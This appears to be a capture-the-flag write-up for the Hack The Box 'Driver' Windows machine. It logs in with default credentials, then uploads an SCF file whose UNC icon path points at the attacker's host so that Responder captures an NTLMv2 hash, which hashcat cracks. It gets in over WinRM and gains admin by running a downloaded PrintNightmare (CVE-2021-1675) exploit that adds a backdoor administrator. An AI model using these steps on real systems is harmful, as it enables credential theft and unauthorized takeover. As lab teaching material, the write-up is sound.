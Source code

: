 ```yaml
---
layout: post
title: Hack The Box - Driver
disass:
  - url: /assets/images/htb-driver/driver-1.png
    image_path: /assets/images/htb-driver/driver-1.png
    title: description
  - url: /assets/images/htb-driver/driver--2.png
    image_path: /assets/images/htb-driver/driver--2.png
    title: other
categories:
  - hackthebox
slug: hack-box-driver
tags:
  - cve
  - windows
  - smb
  - printnightmare
---
```

## Challenge description

[https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1,65535 -- -A -sC

PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-17T02:16:50
|_  start_date: 2022-01-16T20:40:33
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25778/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 15033/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
```

### SMB Enumeration

All tools I used reported no open share

### Web Enumeration

Browsing to http://driver.htb gets us to a basic authentication login prompt. After trying a couple usual default password, I manage to log in with admin/admin.

After logging in, we get to what looks like a printer admin page.

On the "Firmware Updates" tab, we can upload a file and the page says :

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

It's a pretty clear indication that "someone" or "something" will check the file we upload.

After trying some upload tricks, well, no tricks are needed. There are no restriction what so ever.

## Exploitation && Foothold

Let's read this again:

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

It says that our uploaded file will be placed on their file share which implies that someone will browse the share.

Let's do a SCF file attack

Per [Pentestlab.blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):

> However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

> When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

```
$ cat << EOF > exploit.scf       
[Shell]
Command=2
IconFile=\\10.10.14.74\share\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

We can now upload our exploit using the firmware update page and wait for responder to capture hashes:

```
$ sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]
```

Now, let's crack it and use the password to log on the target:

```
$ hashcat -a 0 -m 5600 hashes /opt/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

[...]
TONY::DRIVER:a4a1daba2e76ad05:597b6b92e2114645d6f9cf39f3a315ff:01010000000000007212b4fe870bd8011aa3e96919e9f60000000000020000000000000000000000:liltony
[...]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents> more c:\users\tony\desktop\user.txt
(redacted)
```

## Privilege Escalation

To escalate our privileges to administrator, we'll be exploiting a recently discovered vulnerability affecting the Windows print spooler.

First, download the [exploit](https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1) and open a winrm session using Evil-Winrm using the -s option to load the folder containing the exploit.

The exploit script will allow us to create a new admin local user.

```
$ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -O /tmp/driver/CVE-2021-1675.ps1

2022-01-17 08:55:58 (7.46 MB/s) - ‘CVE-2021-1675.ps1’ saved [178561/178561]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents>
```

When Evil-Winrm is opened with the -s (--scripts) option, all the scripts inside the folder becomes directly accessible within the winrm session. Let's load and run the exploit to create our backdoor user.

```
*Evil-WinRM* PS C:\Users\tony\Documents> CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> invoke-nightmare -newuser h3x -newpass h3xp4ss!
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user h3x as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

*Evil-WinRM* PS C:\Users\tony\Documents> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
h3x
The command completed successfully.

*Evil-WinRM* PS C:\Users\tony\Documents> exit
```

Now let's use our new user to get admin privileges.

```
$ evil-winrm -i $ip -u h3x -p h3xp4ss!                         

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\h3x\Documents> more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
